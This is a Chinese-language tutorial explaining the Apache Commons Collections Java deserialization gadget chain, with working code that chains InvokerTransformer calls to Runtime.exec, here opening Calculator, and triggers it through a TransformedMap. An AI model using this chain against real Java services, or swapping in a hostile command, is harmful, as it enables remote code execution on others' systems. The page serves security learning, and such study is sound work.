 # Apache common collections

Apache common collections 的反序列化利用链在15年左右爆出，由于许多框架都用到了这个库，因此也是造成了很大的影响。

## Pop链

apache common collection的整个反序列化过程主要依托于transformer类以及TransformedMap类。

Transformer类用于描述变换过程，而TransformedMap则将这个变换过程应用于一个Map上，当Map中的元素发生改变时则按照设置好的Transformer进行一系列的处理操作。

```java
Map transformedMap=TransformedMap.decorate(map,keyTrasnfomer,valueTransformer);
```

这里便是通过一个decorate函数将一个map转换为TransformedMap,并且对map的key和value绑定相应的这里便通过一个decorate函数将一个map转换为TranformedMap,并对map的key和value绑定相应的Transformer,当key和value改变时便触发对应的Transformer的transform方法进行处理动作。

如果想要实现一连串的变换操作则可以通过ChainedTransformer来实现,比如这里我们用于实现RCE的Tranformer链：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        /*
        由于Method类的invoke(Object obj,Object args[])方法的定义
        所以在反射内写new Class[] {Object.class, Object[].class }
        正常POC流程举例：
        ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("gedit");
        */
        new InvokerTransformer(
                "getMethod",
                new Class[] {String.class, Class[].class },
                new Object[] {"getRuntime", new Class[0] }
        ),
        new InvokerTransformer(
                "invoke",
                new Class[] {Object.class,Object[].class },
                new Object[] {null, null }
        ),
        new InvokerTransformer(
                "exec",
                new Class[] {String.class },
                new Object[] { "/Applications/Calculator.app/Contents/MacOS/Calculator" } //目标机器上反序列化后执行的命令
        )
};
Transformer chainedTransformer=new ChainedTransformer(transformers);
```

实际执行的代码便是 `((Runtime) Runtime.class.getMethod("getRuntime").invoke()).exec("/Applications/Calculator.app/Contents/MacOS/Calculator")` ,也就是Map下的弹计算器的指令。

之后我们可以构造一个使用这个chain的TransformedMap,并且触发对这个transformedMap的处理即可

```java
Map map=new HashMap();
map.put("a","b");
Map transformedMap=TransformedMap.decorate(map,null,chainedTransformer);
transformedMap.put("a","z");
```
